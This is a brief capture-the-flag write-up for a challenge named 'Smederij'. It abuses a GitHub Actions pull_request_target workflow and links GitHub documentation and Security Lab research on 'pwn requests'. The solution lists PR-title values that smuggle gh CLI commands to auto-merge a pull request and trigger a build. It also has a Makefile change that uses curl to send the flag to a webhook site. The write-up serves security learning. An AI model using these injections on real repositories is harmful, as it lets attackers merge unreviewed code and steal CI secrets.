

# Smederij (medium)

Laat het smeden beginnen!

https://smederij.chall.pwnoh.io

## Solution

https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#pull_request_target

https://securitylab.github.com/research/github-actions-preventing-pwn-requests/

- create a PR to update Makefile (for example do curl to exfiltrate flag to webhooks.site)
- escape PR title and run gh CLI commands to merge your PR:  a"; gh pr merge --auto --merge 1 #
- run another gh command to run the build workflow on the main branch: x"; gh workflow run build --ref main # `update" && gh workflow run build --ref main && cookie=`
